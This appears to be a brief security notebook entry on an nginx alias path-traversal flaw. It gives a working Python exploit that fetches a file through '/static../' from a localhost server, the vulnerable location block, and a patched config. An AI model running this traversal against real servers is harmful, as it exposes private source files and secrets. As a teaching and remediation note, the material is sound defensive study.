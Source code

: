#path-traversal #nginx 

## Vulnerability 

exploit.py - directory path traversal 
```bash
#!/usr/bin/env python3

# Modules
import requests

URL = "http://localhost"
FILE = 'utils.py'

def exploit():
    # Get the file
    r = requests.get(f"{URL}/static../{FILE}")

    # Save the file
    with open(f"/tmp/{FILE}", 'wb') as f:
        f.write(r.content)

    print(f"File {FILE} downloaded to /tmp/{FILE}")

if __name__ == "__main__":
    exploit()
```
nginx conf
```
location /static {
	alias /www/application/app/static/;
}
```
## Fix 

```nginx.conf
location /static/ {
    root /www/application/app;
    autoindex off;

    if ($request_uri ~* "/\.\.") {
        return 403;
    }
}
```

![](_attachments/Pasted%20image%2020250322093952.png)